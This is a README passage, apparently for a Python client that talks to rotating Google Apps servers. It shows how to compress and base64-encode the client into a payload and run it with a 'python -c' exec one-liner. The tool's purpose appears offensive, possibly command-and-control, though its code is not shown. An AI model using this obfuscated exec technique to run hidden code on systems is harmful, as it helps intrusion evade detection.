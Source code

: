 ## Client Support

![Python](https://img.shields.io/static/v1?label=Python&message=2.7,%203%2B&color=success&logo=python&style=flat-square&logoColor=green) 
## Deployment Notes

- Since Python is an interpreted language, `client.py` is written to limit payload size. The client uses Python's `urllib` (versions [2.7](https://docs.python.org/2.7/library/urllib.html) and [3+](https://docs.python.org/3/library/urllib.html)) for making HTTP requests to the array of Google Apps Servers.
- Add your Google Apps Server URLs to the `srv` array variable in `client.py`. The client will cycle through the array to load balance server connections.
- Run the following Python to generate a payload:

```python
# works with python2 or python3
import base64,zlib
f = open('client.py','rb')
print(base64.b64encode(zlib.compress(f.read(),9)).decode('utf-8'))
f.close()
```

- Copy the base64 encoded payload and paste it into the following command to replace `<PAYLOAD>`:

```bash
python -c "import base64,zlib;exec(zlib.decompress(base64.b64decode('<PAYLOAD>')).decode('utf-8'))"
```

